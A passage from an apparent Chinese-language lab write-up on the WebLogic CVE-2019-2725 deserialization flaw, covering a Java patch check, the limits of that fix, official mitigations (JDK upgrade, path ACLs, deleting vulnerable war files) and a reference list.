       if(var9 != null && !var9.equalsIgnoreCase("byte")) {
      throw new IllegalStateException("The value of class attribute is not valid for array element.");
     }
```

当然，如果攻击者使用的poc中再次的利用了void、array和Class或者其他元素依然可能导致绕过补丁，因此这种修复漏洞的方式只能一定程度上的缓解，而不是一种完全可靠的防护措施。

**查阅官方文档，官方对此漏洞发布了紧急的修复方式：**

官方已于4月26日公布紧急补丁包，下载地址如下：https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html?from=timeline

主要通过两种方式：

- **升级本地JDK版本**

  因为Weblogic所采用的是其安装文件中默认1.6版本的JDK文件，属于存在反序列化漏洞的JDK版本，因此升级到JDK7u21以上版本可以避免由于Java原生类反序列化漏洞造成的远程代码执行。

- **配置URL访问控制策略**

  部署于公网的WebLogic服务器，可通过ACL禁止对`/_async/`*及`/wls-wsat/`*路径的访问。

- **删除不安全文件**

  - 删除`wls9_async_response.war`与`wls-wsat.war`文件及相关文件夹，并重启Weblogic服务。具体文件路径如下：

    `10.3.*`版本：

    ```bash
    \Middleware\wlserver_10.3\server\lib\%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\
    ```

### 🔍参考材料

- [网络安全(2021)综合实验](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)
- [cuc-ns-ppt](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

- [Vulfocus 镜像维护目录](https://github.com/fofapro/vulfocus/blob/master/images/README.md)
- [关于Oracle WebLogic wls9-async组件存在反序列化远程命令执行漏洞的安全公告（第二版）](https://www.cnvd.org.cn/webinfo/show/4999)
- [Oracle Security Alert Advisory - CVE-2019-2725](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Long Term Persistence of JavaBeans Components: XML Schema](https://www.oracle.com/technical-resources/articles/java/persistence3.html)
- [soap协议注入漏洞挖掘](http://www.smatrix.org/forum/forum.php?mod=viewthread&tid=2525)
- [How To Remove Docker Images, Containers, and Volumes | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-remove-docker-images-containers-and-volumes)
- [Struts2 S2-061 Remote Code Execution Vulnerability (CVE-2020-17530) Threat Alert - NSFOCUS, Inc., a global network and cyber security leader, protects enterprises and carriers from advanced cyber attacks.](https://nsfocusglobal.com/struts2-s2-061-remote-code-execution-vulnerability-cve-2020-17530-threat-alert/)
